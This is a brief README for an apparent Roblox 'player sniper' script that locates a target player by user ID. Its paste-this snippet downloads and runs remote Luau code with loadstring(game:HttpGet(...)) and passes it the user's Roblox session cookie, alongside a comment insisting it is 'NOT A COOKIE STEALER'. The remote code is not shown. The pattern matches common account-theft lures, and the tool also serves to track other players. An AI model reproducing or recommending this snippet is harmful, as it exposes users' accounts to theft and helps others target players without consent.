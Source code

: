 # Requirements

* MUST HAVE USERID OF TARGET PLAYER.
* PLAYER MUST BE IN SAME EXPIREANCE TO WORK. (not place/server)

# SCRIPT :

local scriptlink = "https://raw.githubusercontent.com/Robvalt/roblox-player-sniper/refs/heads/main/sniper.luau" --// DO NOT CHANGE
local cookie = "" --// NOT A COOKIE STEALER! THIS IS USED FOR AUTH AND SECURITY WHEN GETTING THE GAME THE PLAYER IS ON. Short For Roblox Cookie.

loadstring(game:HttpGet(scriptlink))(cookie)

[# Click For Script Link!](https://raw.githubusercontent.com/Robvalt/roblox-player-sniper/refs/heads/main/sniper.luau)
